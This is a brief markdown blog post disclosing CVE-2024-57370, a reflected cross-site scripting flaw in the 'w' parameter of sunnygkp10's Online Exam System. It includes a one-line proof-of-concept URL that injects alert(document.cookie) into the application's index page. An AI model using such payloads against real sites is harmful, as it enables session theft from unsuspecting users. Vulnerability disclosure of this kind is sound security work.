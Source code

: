 ```yaml
---
title:  "CVE-2024-57370: sunnygkp10's Online Exam System"
date:   2025-01-16
tags: [posts]
excerpt: "Discovery of CVE-2024-57370"
---
```

Explanation of CVE-2024-57370
---
Cross-site Scripting (XSS) vulnerability in sunnygkp10 Online Exam System master version allows a remote attacker to obtain sensitive information via the ```w``` parameter.

<img src="{{ site.url }}{{ site.baseurl }}/images/CVE-2024-57370-OnlineExamSystem-Home.JPG" alt="">

Vulnerable code:
<img src="{{ site.url }}{{ site.baseurl }}/images/CVE-2024-57370-OnlineExamSystem-Code.JPG" alt="">

Proof-of-Concept: http://DOMAIN_NAME/Online-Exam-System-/index.php?w=%22);alert(document.cookie);//%22
<img src="{{ site.url }}{{ site.baseurl }}/images/CVE-2024-57370-OnlineExamSystem-POC.JPG" alt="">

References
---
1. [CVE Link] - Link to the CVE
2. [Online Exam System GitHub](https://github.com/sunnygkp10/Online-Exam-System-)
